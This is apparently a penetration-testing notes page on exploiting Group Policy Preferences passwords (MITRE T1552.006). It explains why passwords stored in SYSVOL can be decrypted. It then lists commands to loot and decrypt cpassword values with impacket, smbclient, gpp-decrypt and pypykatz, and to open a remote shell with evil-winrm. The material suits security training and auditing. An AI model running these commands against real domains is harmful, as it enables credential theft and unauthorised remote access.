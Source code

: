 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1552.006
---
```


# Group Policy Preferences

## Theory

Windows systems come with a built-in Administrator (with an RID of 500) that most organizations want to change the password of. This can be achieved in multiple ways but there is one that is to be avoided: setting the built-in Administrator's password through Group Policies.

* **Issue 1**: the password is set to be the same for every (set of) machine(s) the Group Policy applies to. If the attacker finds the admin's hash or password, he can gain administrative access to all (or set of) machines.
* **Issue 2**: by default, knowing the built-in Administrator's hash (RID 500) allows for powerful [Pass-the-Hash](https://www.thehacker.recipes/a-d/movement/ntlm/pth) attacks ([read more](https://www.thehacker.recipes/a-d/movement/ntlm/pth#limitations-tips-and-tricks)).
* **Issue 3**: all Group Policies are stored in the Domain Controllers' `SYSVOL` share. All domain users have read access to it. This means all domain users can read the encrypted password set in Group Policy Preferences, and since Microsoft published the encryption key around 2012, the password can be decrypted🤷‍♂️.



***

## Practical

{% hint style="info" %}
From UNIX-like systems, the [Get-GPPPassword.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py) (Python) script in the impacket examples can be used to remotely parse `.xml` files and loot for passwords.
{% endhint %}

```
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

```



## SYSVOL

```
smbclient -U 'Username' \\\\<IP>\\SYSVOL

# Download Policy.xml file
get Policy.xml
```

### Decrypt the Password (Manual)

{% hint style="info" %}
If you have downloaded the Policies.xml file from the remote system's SYSVOL share then you can decrypt the cpassword value using the below tools
{% endhint %}

```
pypykatz gppass j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw

gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```



## Get Remote Shell Access

### Evil-WinRM

```
sudo docker run --rm -ti --name evil-winrm  oscarakaelvis/evil-winrm -i <IP> -u <svc_dbbackup> -p '<password>'
```

{% hint style="info" %}
**Note:** The username above should match the value found in the `Policy.xml` file. In my case the username was found in the format

**newName="svc\_dbbackup"**
{% endhint %}





***

## REFERENCES

* [https://www.thehacker.recipes/a-d/movement/credentials/dumping/group-policies-preferences](https://www.thehacker.recipes/a-d/movement/credentials/dumping/group-policies-preferences)
* [https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/#:\~:text=Exploiting%20Group%20Policy%20Preferences%20via%20Metasploit%20%2DI,-As%20we%20know\&text=This%20module%20enumerates%20files%20from,using%20Microsoft's%20public%20AES%20key.](https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/)
* [https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/](https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/)
* [https://www.mindpointgroup.com/blog/privilege-escalation-via-group-policy-preferences-gpp](https://www.mindpointgroup.com/blog/privilege-escalation-via-group-policy-preferences-gpp)
